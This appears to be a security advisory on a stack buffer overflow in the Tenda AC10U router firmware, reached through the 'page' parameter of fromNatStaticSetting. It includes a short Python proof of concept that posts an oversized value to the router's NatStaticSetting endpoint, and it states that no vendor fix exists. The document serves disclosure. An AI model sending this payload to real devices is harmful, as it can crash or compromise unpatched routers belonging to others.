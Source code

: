 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the page parameter in the fromNatStaticSetting function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "fromNatStaticSetting" retrieves the parameter "page" using "websGetVar", the value of "page" is formatted using the sprintf function, concatenated with "%s" strings, and stored in "gotopage". This concatenation mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "gotopage".

![1705406306749](image/fromDhcpListClient_2copy/1705406306749.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/NatStaticSetting'
payload = {
    "page": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html

